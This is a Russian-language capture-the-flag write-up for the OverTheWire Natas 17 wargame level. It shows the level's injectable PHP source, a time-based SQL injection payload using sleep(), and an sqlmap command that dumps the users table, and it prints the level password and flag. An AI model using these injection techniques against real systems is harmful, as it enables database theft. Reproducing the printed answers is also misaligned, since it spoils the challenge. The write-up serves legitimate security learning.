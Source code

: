 # NATAS_17 WriteUp
:computer: Host: http://natas17.natas.labs.overthewire.org/  
:bust_in_silhouette: Usename: natas17  
:key: Password: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd

:triangular_flag_on_post: Flag: 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
 
- [NATAS\_17 WriteUp](#natas_17-writeup)
  - [Обзор веб-приложения](#обзор-веб-приложения)
  - [Решение](#решение)

## Обзор веб-приложения
<a name="Обзор_веб-приложения"></a> 
Веб-приложение выглядит следующим образом
![Скриншот веб-приложения](./img/natas17/natas17_0.png)

При вводе строки ``test`` веб-приложение ведёт себя странно
![Скриншот веб-приложения](./img/natas17/natas17_1.png)

Кнопка <kbd>**View sourcecode**</kbd> позволяет просмотреть исходный код страницы
```php
// HTML Code ...
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }
    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
// HTML Code ...
```

## Решение
<a name="Решение"></a>
Разберёмся почему веб-приложение не выдаёт никакой информации при отправке данных в форму
```php
if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    else {
        //echo "Error in query.<br>";
    }
```

Вывод закомментирован.. вероятно для того, чтобы принудить нас к использованию именно time-based SQL инъекцию

Запрос к БД формируется следующим образом
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```

Попробуем вызвать функцию ``sleep(1)``  
:space_invader: Payload: ``test" or username=(select sleep(1)) #`` 

![Проведение атаки](./img/natas17/natas17_2.png)

Наличие time-based SQL инъекции подтвердили, можно доверить брутфорс автоматике
люч запуска **sqlmap**
```bash
sqlmap -u http://natas17.natas.labs.overthewire.org/ --data="username=natas17" --auth-type Basic --auth-cred natas17:XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd --technique=T --dbms mysql --level 5 --risk 3 --batch --threads 10 -D natas17 -T users --dump
```

Дамп таблицы
![Флаг](./img/natas17/natas17_3.png)


Полученный флаг: 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
